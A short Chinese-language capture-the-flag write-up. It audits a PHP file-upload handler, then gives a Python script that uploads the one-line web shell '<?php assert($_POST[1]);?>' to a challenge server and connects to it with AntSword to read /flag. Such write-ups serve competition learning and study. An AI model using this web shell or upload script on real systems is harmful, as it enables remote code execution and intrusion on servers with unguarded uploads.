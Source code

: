 ```php
    move_uploaded_file($_FILES['file']['tmp_name'], $path);

    header("Location: $path", true, 303);
    exit;
}
?> 1
```

通过代码审计 可能需要传马 利用脚本上传

```php
import requests
def upload_file_content(file_content, filename, upload_url):
    # 直接使用文件内容创建一个可上传的对象
    files = {'file': (filename, file_content)}

    # 发送POST请求上传文件内容，并设置不跟随重定向
    try:
        response = requests.post(upload_url, files=files, allow_redirects=False)
    except requests.exceptions.RequestException as e:
        print(f"请求过程中发生错误: {e}")
        return
    # 检查响应状态码以判断是否上传成功
    if response.status_code == 200:
        print("文件上传成功")
        print("响应头部：")
        for key, value in response.headers.items():
            print(f"{key}: {value}")
        # 打印响应主体内容
        print("响应主体：")
        print(response.text)
    elif response.status_code in [301, 302, 303, 307, 308]:
        print(f"收到重定向响应，状态码: {response.status_code}")
        if 'Location' in response.headers:
            print(f"重定向位置: {response.headers['Location']}")
        else:
            print("没有提供重定向位置。")
    else:
        print(f"文件上传失败，HTTP状态码: {response.status_code}")
        print(f"响应内容: {response.text}")
file_content = ("<?php assert($_POST[1]);?>").encode('utf-8')  # 将字符串转换为字节流
filename = "example.txt"  # 你可以为你的文件指定一个名称
upload_url = 'http://challenge.qihangcup.cn:34764/'  # 替换为你的PHP脚本的实际URL
upload_file_content(file_content, filename, upload_url)
```

上传成功后的得到上传位置 利用中国蚁剑连接

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737799969595-b85e35dd-672f-427b-a7ca-a6dce4c4281d.png)

添加数据成功后在/flag里面发现flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737800054436-ec2cd300-7fe6-4c76-b994-c53cd7aff7a7.png)

